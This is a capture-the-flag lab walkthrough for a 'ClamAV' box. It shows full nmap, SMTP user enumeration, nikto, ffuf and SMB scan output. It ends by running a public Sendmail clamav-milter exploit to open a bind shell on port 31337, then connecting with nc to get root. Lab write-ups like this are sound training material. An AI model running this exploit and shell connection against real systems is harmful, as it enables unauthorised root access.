





# Recon

## nmapAutomator.sh (Full)
```
$ sudo ./nmapAutomator.sh -H clamav.pg -t Full -o full

PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 3.8.1p1 Debian 8.sarge.6 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:3e:a4:13:5f:9a:32:c0:8e:46:eb:26:b3:5e:ee:6d (DSA)
|_  1024 af:a2:49:3e:d8:f2:26:12:4a:a0:b5:ee:62:76:b0:18 (RSA)
25/tcp    open  smtp        Sendmail 8.13.4/8.13.4/Debian-3sarge3
| smtp-commands: localhost.localdomain Hello [192.168.49.70], pleased to meet you, ENHANCEDSTATUSCODES, PIPELINING, EXPN, VERB, 8BITMIME, SIZE, DSN, ETRN, DELIVERBY, HELP
|_ 2.0.0 This is sendmail version 8.13.4 2.0.0 Topics: 2.0.0 HELO EHLO MAIL RCPT DATA 2.0.0 RSET NOOP QUIT HELP VRFY 2.0.0 EXPN VERB ETRN DSN AUTH 2.0.0 STARTTLS 2.0.0 For more info use "HELP <topic>". 2.0.0 To report bugs in the implementation send email to 2.0.0 sendmail-bugs@sendmail.org. 2.0.0 For local information send email to Postmaster at your site. 2.0.0 End of HELP info
80/tcp    open  http        Apache httpd 1.3.33 ((Debian GNU/Linux))
|_http-server-header: Apache/1.3.33 (Debian GNU/Linux)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Ph33r
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
199/tcp   open  smux        Linux SNMP multiplexer
445/tcp   open  netbios-ssn Samba smbd 3.0.14a-Debian (workgroup: WORKGROUP)
60000/tcp open  ssh         OpenSSH 3.8.1p1 Debian 8.sarge.6 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:3e:a4:13:5f:9a:32:c0:8e:46:eb:26:b3:5e:ee:6d (DSA)
|_  1024 af:a2:49:3e:d8:f2:26:12:4a:a0:b5:ee:62:76:b0:18 (RSA)
Service Info: Host: localhost.localdomain; OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 6h04m00s, deviation: 2h49m42s, median: 4h04m00s
|_smb2-time: Protocol negotiation failed (SMB2)
|_nbstat: NetBIOS name: 0XBABE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: share (dangerous)
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.14a-Debian)
|   NetBIOS computer name: 
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-08-30T23:49:50-04:00
```

# nmapAutomator.sh (Recon)

We see guest logins are allowed on port 445 (but no access to shares), interesting information for port 25, and something peculiar on port 80.

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 3.8.1p1 Debian 8.sarge.6 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:3e:a4:13:5f:9a:32:c0:8e:46:eb:26:b3:5e:ee:6d (DSA)
|_  1024 af:a2:49:3e:d8:f2:26:12:4a:a0:b5:ee:62:76:b0:18 (RSA)
25/tcp  open  smtp        Sendmail 8.13.4/8.13.4/Debian-3sarge3
| smtp-commands: localhost.localdomain Hello [192.168.49.70], pleased to meet you, ENHANCEDSTATUSCODES, PIPELINING, EXPN, VERB, 8BITMIME, SIZE, DSN, ETRN, DELIVERBY, HELP
|_ 2.0.0 This is sendmail version 8.13.4 2.0.0 Topics: 2.0.0 HELO EHLO MAIL RCPT DATA 2.0.0 RSET NOOP QUIT HELP VRFY 2.0.0 EXPN VERB ETRN DSN AUTH 2.0.0 STARTTLS 2.0.0 For more info use "HELP <topic>". 2.0.0 To report bugs in the implementation send email to 2.0.0 sendmail-bugs@sendmail.org. 2.0.0 For local information send email to Postmaster at your site. 2.0.0 End of HELP info
80/tcp  open  http        Apache httpd 1.3.33 ((Debian GNU/Linux))
|_http-title: Ph33r
|_http-server-header: Apache/1.3.33 (Debian GNU/Linux)
| http-methods: 
|_  Potentially risky methods: TRACE
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
199/tcp open  smux        Linux SNMP multiplexer
445/tcp open  netbios-ssn Samba smbd 3.0.14a-Debian (workgroup: WORKGROUP)
Service Info: Host: localhost.localdomain; OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 6h04m00s, deviation: 2h49m42s, median: 4h04m00s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: share (dangerous)
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
|_nbstat: NetBIOS name: 0XBABE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.14a-Debian)
|   NetBIOS computer name: 
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-08-30T23:47:51-04:00


---------------------Recon Recommendations---------------------


SMTP Recon:

smtp-user-enum -U /usr/share/wordlists/metasploit/unix_users.txt -t "clamav.pg" | tee "recon/smtp_user_enum_clamav.pg.txt"


Web Servers Recon:

nikto -host "http://clamav.pg:80" | tee "recon/nikto_clamav.pg_80.txt"
ffuf -ic -w /usr/share/wordlists/dirb/common.txt -e ',.html' -u "http://clamav.pg:80/FUZZ" | tee "recon/ffuf_clamav.pg_80.txt"


SMB Recon:

smbmap -H "clamav.pg" | tee "recon/smbmap_clamav.pg.txt"
smbclient -L "//clamav.pg/" -U "guest"% | tee "recon/smbclient_clamav.pg.txt"


Which commands would you like to run?
All (Default), ffuf, nikto, smbclient, smbmap, smtp-user-enum, Skip <!>

Running Default in (14)s: 


---------------------Running Recon Commands--------------------


Starting smtp-user-enum scan

Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... VRFY
Worker Processes ......... 5
Usernames file ........... /usr/share/wordlists/metasploit/unix_users.txt
Target count ............. 1
Username count ........... 168
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ 

######## Scan started at Tue Aug 30 18:44:13 2022 #########
clamav.pg: backup exists
clamav.pg: bin exists
clamav.pg: daemon exists
clamav.pg: ftp exists
clamav.pg: games exists
clamav.pg: gnats exists
clamav.pg: irc exists
clamav.pg: list exists
clamav.pg: lp exists
clamav.pg: mail exists
clamav.pg: man exists
clamav.pg: news exists
clamav.pg: nobody exists
clamav.pg: postmaster exists
clamav.pg: proxy exists
clamav.pg: root exists
clamav.pg: ROOT exists
clamav.pg: sshd exists
clamav.pg: sys exists
clamav.pg: sync exists
clamav.pg: uucp exists
clamav.pg: webmaster exists
clamav.pg: www exists
clamav.pg: www-data exists
######## Scan completed at Tue Aug 30 18:44:36 2022 #########
24 results.

168 queries in 23 seconds (7.3 queries / sec)

Finished smtp-user-enum scan

=========================

Starting nikto scan

- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.70.42
+ Target Hostname:    clamav.pg
+ Target Port:        80
+ Start Time:         2022-08-30 18:44:38 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/1.3.33 (Debian GNU/Linux)
+ Server may leak inodes via ETags, header found with file /, inode: 418030, size: 289, mtime: Wed Jan 21 19:57:56 2009
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Apache/1.3.33 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.html
+ Allowed HTTP Methods: GET, HEAD, OPTIONS, TRACE 
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-3268: /icons/: Directory indexing found.
+ 8594 requests: 0 error(s) and 10 item(s) reported on remote host
+ End Time:           2022-08-30 19:04:47 (GMT-5) (1209 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

Finished nikto scan

=========================

Starting ffuf scan

.html                   [Status: 403, Size: 269, Words: 20, Lines: 11, Duration: 136ms]
                        [Status: 200, Size: 289, Words: 21, Lines: 12, Duration: 137ms]
                        [Status: 200, Size: 289, Words: 21, Lines: 12, Duration: 137ms]
.htaccess               [Status: 403, Size: 273, Words: 20, Lines: 11, Duration: 4398ms]
.hta.html               [Status: 403, Size: 273, Words: 20, Lines: 11, Duration: 4398ms]
.hta                    [Status: 403, Size: 268, Words: 20, Lines: 11, Duration: 4399ms]
.htpasswd               [Status: 403, Size: 273, Words: 20, Lines: 11, Duration: 4399ms]
.hta                    [Status: 403, Size: 268, Words: 20, Lines: 11, Duration: 4399ms]
.htaccess.html          [Status: 403, Size: 278, Words: 20, Lines: 11, Duration: 4399ms]
.htaccess               [Status: 403, Size: 273, Words: 20, Lines: 11, Duration: 4399ms]
.htpasswd               [Status: 403, Size: 273, Words: 20, Lines: 11, Duration: 4395ms]
.htpasswd.html          [Status: 403, Size: 278, Words: 20, Lines: 11, Duration: 4396ms]
cgi-bin/                [Status: 403, Size: 272, Words: 20, Lines: 11, Duration: 138ms]
cgi-bin/.html           [Status: 403, Size: 277, Words: 20, Lines: 11, Duration: 138ms]
cgi-bin/                [Status: 403, Size: 272, Words: 20, Lines: 11, Duration: 139ms]
doc                     [Status: 403, Size: 267, Words: 20, Lines: 11, Duration: 128ms]
doc                     [Status: 403, Size: 267, Words: 20, Lines: 11, Duration: 128ms]
index                   [Status: 200, Size: 289, Words: 21, Lines: 12, Duration: 131ms]
index                   [Status: 200, Size: 289, Words: 21, Lines: 12, Duration: 131ms]
index.html              [Status: 200, Size: 289, Words: 21, Lines: 12, Duration: 136ms]
index.html              [Status: 200, Size: 289, Words: 21, Lines: 12, Duration: 130ms]
index.html              [Status: 200, Size: 289, Words: 21, Lines: 12, Duration: 130ms]

Finished ffuf scan

=========================

Starting smbmap scan

[+] Guest session   	IP: clamav.pg:445	Name: unknown                                           
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	IPC$                                              	NO ACCESS	IPC Service (0xbabe server (Samba 3.0.14a-Debian) brave pig)
	ADMIN$                                            	NO ACCESS	IPC Service (0xbabe server (Samba 3.0.14a-Debian) brave pig)

Finished smbmap scan

=========================

Starting smbclient scan


	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	IPC$            IPC       IPC Service (0xbabe server (Samba 3.0.14a-Debian) brave pig)
	ADMIN$          IPC       IPC Service (0xbabe server (Samba 3.0.14a-Debian) brave pig)
Reconnecting with SMB1 for workgroup listing.

	Server               Comment
	---------            -------
	0XBABE               0xbabe server (Samba 3.0.14a-Debian) brave pig

	Workgroup            Master
	---------            -------
	WORKGROUP            0XBABE

Finished smbclient scan

=========================
```

# Enumeration

## Port 80

We see some binary... I wonder what it says?



Well now we have no choice but to pwn ClamAV...



Speaking of ClamAV, it looks like the last result from searchsploit sounds plausible considering we know port 25 is open and loosely configured:
`Sendmail with clamav-milter < 0.91.2 - Remote Command Execution `



This perl script appears to stage a bind shell for us on port 31337, meaning we don't need a listener on ou side. It requires a single argument; the target -- as so:

`$ perl 4761.pl clamav.pg`



Things look good, so we try connecting with:

`$ nc clamav.pg 31337`

We are root!

